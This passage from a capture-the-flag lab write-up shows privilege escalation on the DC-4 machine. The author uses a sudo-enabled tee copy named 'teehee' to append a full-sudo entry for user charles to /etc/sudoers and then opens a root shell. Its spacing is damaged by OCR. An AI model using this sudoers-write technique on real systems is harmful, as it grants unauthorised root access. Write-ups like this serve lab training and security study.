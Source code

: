 ## PRIVILEGE ESCALATION
I associate the name "teehee" with the "tee" program which separates the output into input and output. I check gtfobins.io for ways to escalate tee permissions. One "scenario" fits us

```
Sudo

It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

    LFILE = file_to_write
    echo DATE | sudo tee -a "$ LFILE"

```
Just what file will we edit? I will choose the / etc / sudoers file which holds the permissions for users

```bash
echo "charles ALL = (ALL: ALL) ALL" | sudo teehee -a / etc / sudoers
```
I am logging in as root.

```bash
$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    # 1) Respect the privacy of others.
    # 2) Think before you type.
    # 3) With great power comes great responsibility.

[sudo] password for charles:
root @ dc-4: / home / charles #
```
There is a flag in the root directory, which I will keep for myself :P.
